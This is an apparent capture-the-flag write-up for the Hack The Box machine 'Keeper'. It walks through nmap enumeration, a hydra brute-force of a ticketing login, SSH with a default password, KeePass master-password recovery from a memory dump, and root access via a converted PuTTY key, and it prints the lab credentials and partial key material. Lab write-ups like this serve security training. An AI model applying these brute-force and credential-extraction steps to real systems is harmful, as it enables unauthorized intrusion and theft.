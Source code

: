 ```yaml
---
tags:
  - hack
  - linux
---
```

# HTB: [Keeper](https://app.hackthebox.com/machines/Keeper)

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-03 12:13 CST
Nmap scan report for 10.10.11.227
Host is up (0.14s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.94 seconds
```

`curl` point me toward `tickets.keeper.htb`:

```console
$ curl -si $t
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Tue, 03 Oct 2023 18:14:39 GMT
Content-Type: text/html
Content-Length: 149
Last-Modified: Wed, 24 May 2023 14:04:44 GMT
Connection: keep-alive
ETag: "646e197c-95"
Accept-Ranges: bytes

<html>
  <body>
    <a href="http://tickets.keeper.htb/rt/">To raise an IT support ticket, please visit tickets.keeper.htb/rt/</a>
  </body>
</html>
```

I update `/etc/hosts` so that I may access the vhost:

```console
$ grep keeper /etc/hosts
10.10.11.227 tickets.keeper.htb
```

And:

![](_/htb-keeper-20231002-1.png)

I try `admin:admin` and capture the results using Burp:

![](_/htb-keeper-20231002-2.png)

## Exploitation

I'm able to brute-force the credentials `root:password`:[^1]

```console
$ hydra tickets.keeper.htb http-form-post "/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect" -l root -P /usr/share/seclists/Passwords/cirt-default-passwords.txt
[...]
[DATA] attacking http-post-form://tickets.keeper.htb:80/rt/NoAuth/Login.html:user=^USER^&pass=^PASS^:password is incorrect
[80][http-post-form] host: tickets.keeper.htb   login: root   password: password
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-03 12:42:47
```

The `http://tickets.keeper.htb/rt/` ticketing interface has one ticket from a user who attached a memory dump from KeePass, a password manager utility.

![](_/htb-keeper-20231002-3.png)

Looking at the user data for the ticket requester, there is a default password:

![](_/htb-keeper-20231002-4.png)

These credentials work for `ssh` on the target:

```console
$ ssh lnorgaard@$t
Warning: Permanently added '10.10.11.227' (ED25519) to the list of known hosts.
lnorgaard@10.10.11.227's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
e7880b[...]
```

## Privilege Escalation

The KeePass dump mentioned in the ticket is also available in the user's homedir:

```console
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt
lnorgaard@keeper:~$ unzip -l RT30000.zip 
Archive:  RT30000.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
253395188  2023-05-24 12:51   KeePassDumpFull.dmp
     3630  2023-05-24 12:51   passcodes.kdbx
---------                     -------
253398818                     2 files
```

Running [keepass-password-dumper](https://github.com/vdohney/keepass-password-dumper) on the memory dump reveals most of the password:

```text
Password candidates (character positions):
Unknown characters are displayed as "●"
1.:     ●
2.:     ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.:     d,
4.:     g,
5.:     r,
6.:     ø,
7.:     d,
8.:      ,
9.:     m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Using Google, I'm able to find out that the fragment `M}dgrød med fløde` looks a lot like the phrase `Rødgrød med fløde`, a Danish food. This works, with a lowercase 'r': `rødgrød med fløde`. With that password I'm able to import data into the KeePass app:

![](_/htb-keeper-20231002-5.png)

`root` password: `F4><3K0nd!`…but it doesn't work for `ssh`.

The full KeePass data for `root` user:

```text
Group: Network, Title: keeper.htb (Ticketing Server), User Name: root, Password: ********, Creation Time: 5/19/2023 2:36:50 AM, Last Modification Time: 5/24/2023 4:48:21 AM

PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
[...]
```

That key is in PPK format, and needs to be in a format suitable for OpenSSH.

```console
$ puttygen foo.ppk -O private-openssh -o id_rsa

$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
[...]
-----END RSA PRIVATE KEY-----

$ ssh -i id_rsa root@$t
[...]
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
fc94c7[...]
```
